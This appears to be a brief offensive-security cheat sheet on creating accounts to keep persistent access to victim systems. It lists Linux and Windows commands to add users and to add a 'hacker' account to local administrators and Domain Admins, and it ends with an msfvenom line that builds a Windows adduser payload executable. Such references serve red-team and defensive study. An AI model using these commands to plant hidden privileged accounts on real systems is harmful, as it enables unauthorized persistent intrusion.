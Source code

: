 Adversaries may create an account to maintain access to victim systems. With a sufficient level of access, creating such accounts may be used to establish secondary credentialed access that do not require persistent remote access tools to be deployed on the system.

**Linux**
- Create a user `sudo useradd <username>`
- Create a system user `sudo useradd -r username`
- Create a user with specific User ID `sudo useradd -u 1500 <username>`
- Create a user with a specific group ID `sudo useradd -g <users> <username>`
- Remove an account `sudo userdel <username>`
- Change password of an account `sudo passwd <username>`

- List users `cat /etc/passwd`  `cut -d: -f1 /etc/passwd`

**Windows**
- Create an account `net user /add <username> <password>`
- Add account to local admin group `net localgroup administrators <username> /add`
- Add user to domain group
	- `net group groupName userName /ADD /DOMAIN`
	- `net group "Domain Admins" hacker /ADD /DOMAIN`
- Remove an account `net user <username> /delete`
- Change password of an account `net user <username> <newpassword>`
- Create User

		 msfvenom -p windows/adduser USER=hacker PASS=Hacker123$ -f exe > adduser.exe
